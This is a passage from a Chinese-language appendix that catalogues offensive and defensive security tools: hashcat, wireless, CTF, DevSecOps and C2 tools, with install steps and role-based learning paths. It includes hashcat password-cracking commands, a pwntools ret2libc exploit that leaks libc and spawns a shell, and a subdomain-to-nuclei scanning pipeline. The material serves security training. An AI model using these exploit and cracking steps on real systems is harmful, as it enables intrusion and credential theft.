| hashid | MIT | ⭐ | 哈希类型识别 | github.com/psypanda/hashid |

**hashcat 常用命令**：

```bash
# MD5 基本破解
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

# NTLM (Windows) 破解
hashcat -m 1000 hashes.txt rockyou.txt

# 使用规则增强字典
hashcat -m 0 hashes.txt rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# 掩码攻击（4小写字母+2位数字）
hashcat -m 0 hashes.txt -a 3 ?u?l?l?l?l?d?d

# 组合攻击
hashcat -m 0 hashes.txt wordlist1.txt wordlist2.txt
```

**密码破解策略**：
1. **纯字典攻击**：使用 rockyou.txt 等常见密码字典
2. **规则增强**：对字典应用变形规则（大小写、追加数字、特殊字符）
3. **组合攻击**：将两个字典进行笛卡尔积组合
4. **掩码攻击**：已知密码格式时使用（如 `?u?l?l?l?l?d?d`）
5. **彩虹表**：预计算的哈希-明文对照表（仅适用于无盐值哈希）

---

## B.8 无线安全

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Aircrack-ng 🏆 | GPL-2 | ⭐⭐ | WiFi 安全测试标准套件 | aircrack-ng.org |
| Wifite2 | GPL-3 | ⭐ | 自动化 WiFi 攻击 | github.com/derv82/wifite2 |
| Kismet | GPL-2 | ⭐⭐ | 无线网络检测和嗅探 | kismetwireless.net |
| Bettercap 🏆 | GPL-3 | ⭐⭐ | 网络攻击框架 | bettercap.org |
| WiFi-Pumpkin3 | MIT | ⭐⭐ | 无线钓鱼 AP 框架 | github.com/P0cL4bs/wifipumpkin3 |
| EAPHammer | GPL-3 | ⭐⭐ | WPA-Enterprise 降级攻击 | github.com/s0lst1c3/eaphammer |

**WPA2 攻击路径**：



---

## B.9 漏洞管理

漏洞管理是系统性地发现、评估、修复和跟踪安全漏洞的过程。

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Nessus 🏆🔥 | 🟡 家庭版免费+商业 | ⭐⭐ | 漏洞扫描行业标准，插件库 70000+ | tenable.com |
| OpenVAS 🏆 | GPL-2 | ⭐⭐ | 开源漏洞扫描器 | greenbone.net |
| Qualys | 商业 | ⭐⭐⭐ | 云漏洞管理平台 | qualys.com |
| Nuclei 🏆 | MIT | ⭐ | 模板化漏洞扫描 | github.com/projectdiscovery/nuclei |
| Dependency-Check | Apache | ⭐ | 依赖漏洞检查（OWASP） | owasp.org |
| Trivy | Apache | ⭐ | 全能安全扫描器 | github.com/aquasecurity/trivy |

**漏洞评分体系**：

| 评分体系 | 说明 | 适用场景 |
|----------|------|----------|
| CVSS v3.1 | 业界通用评分（0-10分） | 漏洞优先级排序 |
| EPSS | 漏洞被利用概率预测 | 实际风险评估 |
| SSVC | 漏洞决策框架 | 补丁优先级决策 |

CVSS 评分关键维度：**攻击复杂度**（AC）、**用户交互**（UI）、**权限要求**（PR）、**影响范围**（S）。一个 CVSS 9.8 的漏洞如果攻击复杂度为"高"且需要用户交互，实际风险可能低于 CVSS 7.5 的漏洞。

---

## B.10 CTF 工具

CTF（Capture The Flag）竞赛是提升安全技能的最佳实践方式。

### B.10.1 综合工具

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| CyberChef 🏆 | Apache | ⭐ | "网络瑞士军刀"，300+ 编解码操作 | github.com/gchq/CyberChef |
| Pwntools 🏆 | MIT | ⭐⭐⭐ | Python CTF 库 | github.com/Gallopsled/pwntools |
| Ghidra 🏆 | Apache | ⭐⭐⭐ | NSA 逆向工程框架 | ghidra-sre.org |

### B.10.2 PWN 工具

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| GDB + pwndbg 🏆 | GPL | ⭐⭐⭐ | GDB 增强，堆可视化和漏洞检测 | github.com/pwndbg/pwndbg |
| GDB + GEF | GPL | ⭐⭐⭐ | GDB 增强，功能丰富的 TUI | github.com/hugsy/gef |
| GDB + PEDA | MIT | ⭐⭐ | GDB 增强，经典选择 | github.com/longld/peda |
| ROPgadget 🏆 | BSD | ⭐⭐ | ROP gadget 搜索和链生成 | github.com/JonathanSalwan/ROPgadget |
| z3 🏆 | MIT | ⭐⭐⭐ | 约束求解器，逆向和密码学必备 | github.com/Z3Prover/z3 |
| one_gadget | MIT | ⭐⭐ | 搜索 libc 中的 one_gadget | github.com/david942j/one_gadget |
| checksec | MIT | ⭐ | 检查二进制安全属性 | github.com/slimm609/checksec.sh |

**pwn 工作流示例**：

```python
from pwn import *

# 1. 检查二进制安全属性: checksec --file=vuln
# 2. 本地调试: gdb ./vuln -ex "b main"

p = process('./vuln')
elf = ELF('./vuln')
libc = ELF('./libc.so.6')

# 泄露 libc 地址
payload = b'A' * offset + p64(elf.plt['puts']) + p64(elf.sym['main']) + p64(elf.got['puts'])
p.sendline(payload)
puts_leak = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = puts_leak - libc.sym['puts']

# 获取 shell
system = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))
payload = b'A' * offset + p64(system) + p64(0) + p64(binsh)
p.sendline(payload)
p.interactive()
```

---

## B.11 安全开发（DevSecOps）

安全开发将安全测试集成到软件开发生命周期中，实现"安全左移"。

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Trivy 🏆 | Apache | ⭐ | 全能安全扫描器：容器/文件系统/Git/IaC | github.com/aquasecurity/trivy |
| SonarQube 🏆 | LGPL | ⭐⭐ | 代码安全审计平台，30+ 语言 | sonarqube.org |
| Semgrep 🏆 | LGPL | ⭐⭐ | 快速静态代码分析 | semgrep.dev |
| Bandit | Apache | ⭐ | Python 代码安全检查 | github.com/PyCQA/bandit |
| Checkov | Apache | ⭐ | IaC 安全扫描 | github.com/bridgecrewio/checkov |
| Snyk 🟡 | 免费+商业 | ⭐ | 依赖漏洞扫描 | snyk.io |
| Dependabot | 免费(GitHub) | ⭐ | GitHub 自动依赖更新 | github.com/dependabot |
| Grype | Apache | ⭐ | 容器镜像漏洞扫描 | github.com/anchore/grype |
| Syft | Apache | ⭐ | 容器镜像 SBOM 生成 | github.com/anchore/syft |

**DevSecOps 工具集成优先级**：
1. **SAST**（静态分析）：Semgrep/SonarQube — 代码提交时自动扫描
2. **SCA**（软件成分分析）：Snyk/Trivy — 依赖漏洞检测
3. **DAST**（动态分析）：OWASP ZAP — 部署后自动扫描
4. **Container Scan**：Trivy/Grype — 镜像构建时扫描

---

## B.12 工具选型指南

### B.12.1 按角色推荐

| 角色 | 核心工具 | 学习路线 |
|------|----------|----------|
| **渗透测试初学者** | Nmap → Burp Suite → SQLMap → Metasploit | 先学网络基础，再学 Web 测试 |
| **Web 安全测试员** | Burp Suite → ffuf → Nuclei → sqlmap | Burp Suite 为核心 |
| **红队操作员** | Sliver/Cobalt Strike → Impacket → Mimikatz → BloodHound | C2 为核心 |
| **蓝队分析师** | Wazuh/Elastic Stack → Zeek/Suricata → Sigma → Velociraptor | SIEM 为核心 |
| **恶意软件分析师** | Ghidra → YARA → Any.Run → Floss | 静态分析为核心 |
| **CTF 选手** | pwntools → GDB+pwndbg → CyberChef → Ghidra | pwntools 为核心 |
| **DevSecOps** | Semgrep → Trivy → Snyk → SonarQube | SAST 为核心 |
| **内网渗透** | BloodHound → Impacket → CrackMapExec → Rubeus | 规划+执行 |

### B.12.2 按任务推荐

| 任务 | 推荐工具链 | 说明 |
|------|-----------|------|
| 信息收集 | subfinder → dnsx → httpx → nuclei | ProjectDiscovery 全家桶 |
| 漏洞扫描 | Nuclei + Nessus + Nmap | 轻量快速+深度全面 |
| Web 目录枚举 | ffuf + gobuster | 速度+DNS 枚举 |
| SQL 注入 | sqlmap + Burp Suite | 手动+自动化 |
| 内网渗透 | BloodHound → CrackMapExec → Impacket → Mimikatz | 完整攻击链 |
| 恶意软件分析 | YARA + Ghidra + Any.Run + Floss | 静态+动态+特征 |
| 密码破解 | hashcat + CeWL + Mentalist | GPU+字典 |
| 合规审计 | Nessus + OpenVAS + SonarQube | 漏洞+代码 |

### B.12.3 ProjectDiscovery 生态

ProjectDiscovery 是目前最活跃的安全工具生态之一：

| 工具 | 功能 | 典型用法 |
|------|------|----------|
| subfinder | 子域名枚举 | 发现所有子域名 |
| dnsx | DNS 探测 | 验证域名存活 |
| httpx | HTTP 探测 | 识别 Web 服务 |
| naabu | 端口扫描 | 发现开放端口 |
| nuclei | 漏洞扫描 | 检测已知漏洞 |
| katana | Web 爬虫 | 爬取页面和端点 |
| interactsh | 交互式服务 | SSRF/XXE/盲注检测 |

```bash
# ProjectDiscovery 完整工作流
subfinder -d target.com -silent \
  | httpx -silent -title -status-code -tech-detect \
  | nuclei -severity critical,high
```

---

## B.13 工具安装与环境配置

### B.13.1 Kali Linux

```bash
# Docker 版 Kali
docker pull kalilinux/kali-rolling
docker run -it kalilinux/kali-rolling /bin/bash

# 安装完整工具集
apt update && apt install -y kali-linux-everything

# 安装特定工具
apt install -y nmap nikto sqlmap burpsuite
```

### B.13.2 工具安装通用方法

| 安装方式 | 适用工具 | 命令示例 |
|----------|----------|----------|
| apt (Debian/Kali) | nmap, nikto | `apt install nmap` |
| go install | ProjectDiscovery | `go install github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest` |
| pip | python tools | `pip install pwntools` |
| brew (macOS) | 各种工具 | `brew install nmap` |
| cargo | Rust 工具 | `cargo install rustscan` |
| docker | 复杂环境 | `docker run -it projectdiscovery/nuclei` |
| GitHub Release | 预编译二进制 | 下载 release 中的二进制文件 |

### B.13.3 Go 语言环境配置

```bash
# 安装 Go
wget https://go.dev/dl/go1.22.0.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.22.0.linux-amd64.tar.gz
echo 'export PATH=$PATH:/usr/local/go/bin' >> ~/.bashrc
echo 'export GOPATH=$HOME/go' >> ~/.bashrc
echo 'export PATH=$PATH:$GOPATH/bin' >> ~/.bashrc
source ~/.bashrc

# 安装 ProjectDiscovery 工具链
go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
go install -v github.com/projectdiscovery/naabu/v2/cmd/naabu@latest
go install -v github.com/projectdiscovery/dnsx/cmd/dnsx@latest
```

### B.13.4 工具更新策略

```bash
# Nuclei 模板更新
nuclei -update-templates

# Nmap 脚本更新
nmap --script-update

# Kali 全量更新
apt update && apt upgrade -y
```

---

## B.14 工具生态与社区

### B.14.1 主要工具生态

| 生态 | 核心工具 | 特点 | 社区 |
|------|----------|------|------|
| ProjectDiscovery | subfinder/httpx/nuclei | Go 编写，管道化协作 | GitHub + Discord |
| PortSwigger | Burp Suite/BApp Store | 商业为主，扩展丰富 | 论坛 + Research |
| PSociety | Impacket/CrackMapExec | Python，内网渗透 | GitHub |
| GhostPack | Rubeus/SharpHound/Covenant | C#，Windows/AD | GitHub |

### B.14.2 工具发现渠道

| 渠道 | 地址 |
|------|------|
| GitHub Trending | github.com/trending |
| Awesome-Hacking | github.com/Hack-with-Github/Awesome-Hacking |
| Awesome-Security | github.com/sbilly/awesome-security |
| Packet Storm | packetstormsecurity.com |
| Exploit-DB | exploit-db.com |
| Reddit r/netsec | reddit.com/r/netsec |
| Black Hat | blackhat.com |

### B.14.3 工具学习路径建议



**学习建议**：
1. **第一个月**：精通 Nmap + Burp Suite 社区版，理解 TCP/IP 和 HTTP 协议
2. **第二到三个月**：学习 Nuclei + sqlmap + hashcat，理解常见漏洞类型
3. **第四到六个月**：学习 Impacket + BloodHound + Sliver，理解 AD 和内网攻防
4. **持续进阶**：学习 Ghidra/z3 逆向分析，参加 CTF 比赛巩固技能

---

## 附：工具快速参考卡

各分类中最值得优先掌握的核心工具：

| 分类 | 核心工具 | 一句话说明 |
|------|----------|-----------|
| 子域名枚举 | subfinder + dnsx | 被动枚举 + DNS 验证 |
| 端口扫描 | nmap + rustscan | 深度分析 + 快速发现 |
| Web 扫描 | Burp Suite + Nuclei | 手动测试 + 自动化扫描 |
| SQL 注入 | sqlmap | SQL 注入自动化之王 |
| 目录枚举 | ffuf | 高性能模糊测试 |
| 漏洞利用 | Metasploit + pwntools | 框架级利用 + 脚本化利用 |
| 代理抓包 | Burp Suite + mitmproxy | 商业级 + 开源替代 |
| AD 分析 | BloodHound + SharpHound | 攻击路径可视化 |
| 横向移动 | Impacket + CrackMapExec | 协议库 + 批量操作 |
| 凭证获取 | Mimikatz + hashcat | Windows 凭证 + GPU 破解 |
| 提权 | linPEAS + winPEAS | 自动化提权检查 |
| C2 框架 | Sliver + Cobalt Strike | 开源新星 + 商业标杆 |
| SIEM | Wazuh + Elastic Stack | 开源全能 + 开源日志 |
| EDR | Velociraptor + Sysmon | 终端监控 |
| 恶意软件 | Ghidra + YARA | 逆向分析 + 特征识别 |
| 密码破解 | hashcat | GPU 破解之王 |
| 无线安全 | Aircrack-ng + Bettercap | WiFi 套件 + 网络攻击 |
| 漏洞管理 | Nessus + Nuclei | 企业级扫描 + 模板化扫描 |
| CTF | pwntools + CyberChef + GDB | PWN + 编解码 + 调试 |
| 安全开发 | Semgrep + Trivy | SAST + 容器安全 |